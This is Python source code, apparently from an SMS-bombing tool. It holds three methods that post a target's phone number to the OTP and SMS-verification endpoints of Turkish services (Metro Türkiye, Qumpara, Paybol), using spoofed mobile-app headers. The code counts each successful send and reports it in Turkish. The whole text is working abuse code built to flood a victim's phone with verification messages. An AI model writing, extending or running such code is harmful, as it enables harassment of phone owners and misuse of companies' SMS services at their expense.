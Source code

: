 

    #metro-tr.com
    def Metro(self):
        try:
            url = "https://feature.metro-tr.com:443/api/mobileAuth/validateSmsSend"
            headers = {"Accept": "*/*", "Content-Type": "application/json; charset=utf-8", "Accept-Encoding": "gzip, deflate", "Applicationversion": "2.1.1", "Applicationplatform": "2", "User-Agent": "Metro Turkiye/2.1.1 (com.mcctr.mobileapplication; build:1; iOS 15.7.7) Alamofire/2.1.1", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Connection": "close"}
            json={"methodType": "2", "mobilePhoneNumber": f"+90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["status"] == "success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> feature.metro-tr.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> feature.metro-tr.com")

    
    #qumpara.com
    def Qumpara(self):
        try:
            url = "https://tr-api.fisicek.com:443/v1.3/auth/getOTP"
            headers = {"Accept": "application/json", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate", "User-Agent": "qumpara/4.2.53 (iPhone; iOS 15.7.7; Scale/3.00)", "Accept-Language": "en-TR;q=1, tr-TR;q=0.9"}
            json={"msisdn": f"+90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> tr-api.fisicek.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> tr-api.fisicek.com")


    #paybol.com.tr
    def Paybol(self):
        try:
            url = "https://pyb-mobileapi.walletgate.io:443/v1/Account/RegisterPersonalAccountSendOtpSms"
            headers = {"Accept": "application/json", "Content-Type": "application/json", "User-Agent": "Paybol/1.2.1 (com.app.paybol; build:1; iOS 15.7.7) Alamofire/5.5.0", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Accept-Encoding": "gzip, deflate", "Connection": "close"}
            json={"phone_number": f"90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["status"] == 0:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> pyb-mobileapi.walletgate.io")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> pyb-mobileapi.walletgate.io")
